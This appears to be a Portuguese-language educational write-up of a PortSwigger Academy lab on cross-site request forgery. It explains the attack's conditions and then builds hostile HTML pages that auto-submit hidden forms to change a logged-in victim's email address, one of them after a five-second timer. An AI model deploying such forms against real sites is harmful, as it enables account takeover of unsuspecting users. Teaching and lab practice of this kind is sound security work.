


# Portswigger Academy
## Objetivo
O objetivo desse writeup em especifico é ser acessivel e facil de ler (apesar dessa ser uma flaha complicada).

## Introdução
Cross-Site Request Forgery (CSRF) é um ataque que força um usuário final para executar ações indesejadas em um aplicativo da web no qual elas estão atualmente autenticado. Com uma ajudinha de engenharia social (como enviar um link por e-mail ou chat), um invasor pode enganar o usuários de um aplicativo da web para executar ações do invasor escolhendo. Se a vítima for um usuário normal, um ataque CSRF bem-sucedido pode forçar o usuário a executar solicitações de alteração de estado, como transferência fundos, alterando seu endereço de e-mail e assim por diante. Se a vítima for uma conta administrativa, CSRF pode comprometer todo o aplicativo web. [OWASP](https://owasp.org/www-community/attacks/csrf)

Em um ataque CSRF bem-sucedido, o invasor faz com que o usuário da vítima realize uma ação sem querer. Por exemplo, isso pode ser alterar o endereço de e-mail em sua conta, alterar sua senha ou fazer uma transferência de fundos. Dependendo da natureza da ação, o invasor pode obter controle total sobre a conta do usuário. Se o usuário comprometido tiver uma função privilegiada dentro do aplicativo, o invasor poderá assumir o controle total de todos os dados e funcionalidades do aplicativo
## Como funciona?
Para que um ataque CSRF seja possível, três condições principais devem estar em vigor:

1. Uma ação relevante. Há uma ação dentro do aplicativo que o invasor tem um motivo para induzir. Esta pode ser uma ação privilegiada (como modificar permissões para outros usuários) ou qualquer ação sobre dados específicos do usuário (como alterar a senha do próprio usuário).

2. Tratamento de sessão baseado em cookies. A execução da ação envolve a emissão de uma ou mais solicitações HTTP, e o aplicativo depende exclusivamente de cookies de sessão para identificar o usuário que fez as solicitações. Não há outro mecanismo para rastrear sessões ou validar solicitações de usuários.

3.Não há parâmetros de solicitação imprevisíveis. As solicitações que executam a ação não contêm parâmetros cujos valores o invasor não pode determinar ou adivinhar. Por exemplo, ao fazer com que um usuário altere sua senha, a função não é vulnerável se um invasor precisar saber o valor da senha existente.

Por exemplo, suponha que um aplicativo contenha uma função que permita ao usuário alterar o endereço de email em sua conta. Quando um usuário executa essa ação, eles fazem uma solicitação HTTP como a seguinte:

```http
POST /account/mail-change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=aHR0cHM6Ly94LmNvbS9IZXhzaWxlbnQK

email=lls@normal-account.com
```
Isso atende às condições necessárias para o CSRF:

* A ação de alterar o endereço de e-mail na conta de um usuário é de interesse para um invasor. Após essa ação, o invasor normalmente poderá acionar uma redefinição de senha e assumir o controle total da conta do usuário.

* O aplicativo usa um cookie de sessão para identificar qual usuário emitiu o pedido. Não há outros tokens ou mecanismos para acompanhar as sessões do usuário.

* O atacante pode facilmente determinar os valores dos parâmetros de solicitação que são necessários para executar a ação.

Com estas condições em vigor, o invasor pode construir uma página da web contendo o seguinte HTML:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
Se um usuário de vítima visitar a página da Web do invasor, o seguinte acontecerá:

* A página do atacante irá acionar uma solicitação HTTP para o site vulnerável.

* Se o usuário estiver conectado ao site vulnerável, seu navegador incluirá automaticamente seu cookie de sessão na solicitação (assumindo que os cookies do SameSite não estão sendo usados).

* O site vulnerável processará a solicitação de maneira normal, tratará como tendo sido feita pelo usuário da vítima e alterará seu endereço de e-mail.

[(fonte: 2026/01/03, 08:26 PM - Portswigger Academy)](https://portswigger.net/web-security/csrf)

[IMAGEM]

## LAB 
Recebemos algumas instruções é um par de credenciais:


Acessando a nossa conta, encontramos uma input que nos permite trocar o email da nossa conta sem qualquer verificação de duas etapas:



enviando o *payload `teste@email`, ele já foi alterado sem problemas.

Vamos criar um site simples:

```html
<!DOCTYPE html>
<html>
        <head>
                <title>Exploit CSRF</title>
                <meta charset="utf-8">
                <style>
                </style>

        </Head>
        <body>
                <h1>Site do Hacker</h1>

                <form method="POST" action="#target-url">
                <input type="email" name="email">
                <input type="submit" value="enter">
        </body>
</html>
         
```
Observe que conseguimos alterar o email do labarotarorio:


Agora vamos nos dar mais um passo na criação do site:

```html
<body>
  <h1>Site do Hacker</h1>

  <form method="POST" action="#target-url">
  <input type="hidden" value="hacker@mail.com" name="email">
  <script type="text/javascript">

    function enviar(){
      document.forms[0].submit();
    }
    setTimeout(enviar, 5000);
  </script>
 </body>
```
Com isso agora o nosso site  faz a alteração em 5s sem necessidade da interação da vitima.


